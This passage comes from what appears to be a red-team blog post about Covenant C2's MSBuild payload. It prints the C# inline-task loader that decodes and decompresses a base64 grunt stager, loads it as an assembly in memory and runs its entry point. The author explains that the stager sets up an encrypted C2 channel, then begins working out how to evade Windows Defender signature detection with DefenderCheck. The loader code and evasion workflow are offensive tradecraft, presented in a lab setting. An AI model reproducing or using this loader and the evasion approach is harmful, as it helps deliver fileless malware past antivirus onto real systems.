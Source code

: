 ```xml
            var ds = new System.IO.Compression.DeflateStream(new System.IO.MemoryStream(System.Convert.FromBase64String(""{{GRUNT_IL_BYTE_STRING}}"")), System.IO.Compression.CompressionMode.Decompress);
            var by = new byte[1024];
            var r = ds.Read(by, 0, 1024);
            while (r > 0)
            {
                oms.Write(by, 0, r);
                r = ds.Read(by, 0, 1024);
            }
            System.Reflection.Assembly.Load(oms.ToArray()).EntryPoint.Invoke(0, new object[] { new string[]{ } });
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>";
```

This little chunck of C# serves a simple purpose:

1. Decode a base64-encoded string (the grunt stager) embedded in the task when the payload is generated
2. Decompress the resultant data and write it to a `MemoryStream`
3. Convert the `MemoryStream` to a byte array that can be loaded as a .NET assembly into the current appdomain via [`System.Reflection.Assembly.Load()`](https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.load)
4. Execute the loaded assembly from its entrypoint via the newly-loaded assembly's `Entrypoint.Invoke()` function

From there, the executing stager assembly should begin establishing an encrypted C2 channel with the Covenant listener before receiving the second-stage payload and execting the grunt assembly in memory (likely via another call to `Assembly.Load()`).

## Evading Signature Detection

Before I start dropping this XML payload all over boxes in the lab, I want to know if I'm going to get schwacked by defender. 

This awesome tool [DefenderCheck](https://github.com/matterpreter/DefenderCheck) by [matterpreter](https://twitter.com/matterpreter) helps to quickly identify exactly which bytes in a file are being detected by Windows Defender, and even tells you exactly which signature is being detected!

I generated an MSBuild payload and ran DefenderCheck against it to identify exactly what was being detected. Unsurprisingly, the C# section of the file which loads and the decoded/decompressed payload is being detected.  
